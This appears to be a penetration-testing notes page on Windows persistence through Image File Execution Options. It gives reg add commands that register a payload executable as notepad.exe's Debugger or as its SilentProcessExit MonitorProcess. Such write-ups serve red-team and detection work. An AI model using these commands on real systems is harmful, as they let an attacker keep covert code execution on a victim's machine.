 # Image File Execution Options

## Theory

Image File Execution Options is a Windows registry key which enables developers to attach a debugger to an application and to enable “**GlobalFlag**” for application debugging. This behavior of Windows opens the door for persistence since an arbitrary executable can be used as a debugger of a specific process or as a “**MonitorProcess**“. \
In both scenarios code execution will achieved and the trigger will be either the creation of a process or the exit of an application. However it should be noted that the implementation of this technique requires Administrator level privileges as the registry location which the keys needs to be added is under **HKLM**

## Practice

{% tabs %}
{% tab title="GlobalFlag" %}
With the GlobalFlag persistence technique, payload is triggered when the target application is closed.

```powershell
#Enables the silent exit monitoring for the notepad process.
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

#Enables the Windows Error Reporting process (WerFault.exe) which will be the parent process of the “MonitorProcess”
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

#Set up the arbitrary payload
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\payload.exe"
```
{% endtab %}

{% tab title="Debugger" %}
Using the debugger technique, we can define a binary that will be attached to the targeted process

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "C:\tmp\payload.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/" %}
